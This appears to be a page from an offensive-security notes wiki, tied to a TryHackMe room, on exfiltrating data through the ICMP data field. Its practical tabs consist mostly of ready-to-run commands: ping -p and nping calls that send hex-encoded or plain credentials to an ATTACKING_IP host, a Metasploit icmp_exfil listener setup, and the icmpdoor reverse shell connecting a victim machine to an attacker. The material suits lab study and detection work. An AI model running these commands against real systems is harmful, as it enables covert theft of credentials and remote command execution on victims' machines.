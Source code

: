 # Over ICMP

## Theory

The Internet Control Message Protocol [ICMP](https://en.wikipedia.org/wiki/Internet\_Control\_Message\_Protocol). It is a network layer protocol used to handle error reporting.

### ICMP Data Section

On a high level, the ICMP packet's structure contains a Data section that can include strings or copies of other information, such as the IPv4 header, used for error messages. The following diagram shows the Data section, which is optional to use.\
We can leverage this section in order to exfiltrate datas.

## Practice

{% tabs %}
{% tab title="Manualy" %}
We can, on linux targets, exfiltrate datas with the `-p` options of the `ping` command.

```bash
root@victime$ echo 'root:p@ssw0rd!' | xxd -p
726f6f743a7040737377307264210a

root@victime$ ping ATTACKING_IP -c 1 -p 726f6f743a7040737377307264210a
```

{% hint style="danger" %}
Note that the -p option is only available for **Linux operating systems**. We can confirm that by checking the ping's help manual page.
{% endhint %}
{% endtab %}

{% tab title="metasploit" %}
let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows.

```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKING_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

msf5 auxiliary(server/icmp_exfil) > run
```

On the target, we can now exfiltrate data.

```bash
#First, send the BOF trigger
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "BOFfile.txt"

#Datas
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "admin:password"

#EOF end signal
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "EOF"
```
{% endtab %}

{% tab title="icmpdoor" %}
[ICMPDoor](https://github.com/krabelize/icmpdoor) is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

On the victime machine:

```bash
victime@target$ sudo icmpdoor -i eth0 -d ATTACKING_IP
```

On the attacking machine:

```bash
veresk@kali$ sudo icmp-cnc -i eth1 -d VICTIME_IP
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/dataxexfilt/" %}
